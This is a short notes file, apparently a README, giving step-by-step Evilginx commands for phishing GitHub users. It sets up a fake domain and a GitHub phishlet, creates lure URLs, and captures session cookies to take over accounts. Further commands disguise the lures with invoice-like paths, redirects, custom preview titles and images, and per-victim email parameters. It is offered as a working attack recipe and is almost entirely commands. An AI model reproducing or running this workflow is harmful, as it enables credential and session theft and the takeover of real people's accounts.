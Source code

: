 # Evilginx
0.To capure session Cookies : 
		` set cookies always --> keys: ['user_session:always']`

1.Setup domain
		`config domain fake.com/custom domain`

2.config IPv4
		`config ipv4 127.0.0.1`

3.set phishlet hostname
		`phishlets hostname github github.io.fake.com`
4.Enable Phishlet
		`phishlets enable github `

5.Optinal(Dev mode\Local Mode)
		`phishlets get-hosts github`

		127.0.0.1 github.io.fake.com
		127.0.0.1 api.github.io.fake.com
		127.0.0.1 github.github.io.fake.com
		SET THIS TO /ETC/HOSTS 

6.Create Lures
		`lures create github`

7.List all lures
		`lures`

8.Get the Lures URLs
		`lures get-urls 0 (id .i.e 0)`

** `For CA Certi search this  %USERPROFILE%  and install ca.certi`

9.Get Cookies/Sessions
		` sessions Id`


*********************************************************************************\
## Personalizing Lures
1.Edit Lures
	`lures edit 0(id) path /download/invoice/12342345`

2.Edit hostname
 	`lures edit 0 hostname thisismyrealwebsite.fake.com`

## Redirect URl
1.Redirect url
	`lures edit 0 redirect_url https://abcd.com/`

 
 
 2.Set Title name  and Images 
	- We can change `og_title ,og_desc,og_image,og_url`
   		`lures edit 0 og_title abccwrfgg_title`

3.Custom Parameter
	`lures get-url 0 email=abc@robin.com name=robin`
